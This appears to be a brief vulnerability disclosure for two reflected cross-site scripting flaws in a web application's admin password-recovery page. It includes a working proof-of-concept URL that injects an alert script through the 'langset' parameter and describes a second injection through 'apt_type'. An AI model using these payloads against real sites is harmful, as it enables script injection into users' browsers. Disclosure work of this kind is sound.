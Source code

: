 ## XSS1 
Visit `http://127.0.0.1//m/admin/index.php?a=dogetpassword&anyid=&c=index&lang=cn&langset=1%27%3E%3Cscript%3Ealert(1)%3C/script%3E&n=getpassword`, then it will pop a window
![](img/m1.jpg)
![](img/m2.jpg)  

## XSS2
Visit `http://192.168.6.232/m/admin/index.php?a=dogetpassword&anyid=&c=index&lang=cn&langset=&n=getpassword` and post the payload in apt_type parameter
![](img/m22.jpg)  
then the web page will pop a window
![](img/m11.jpg)


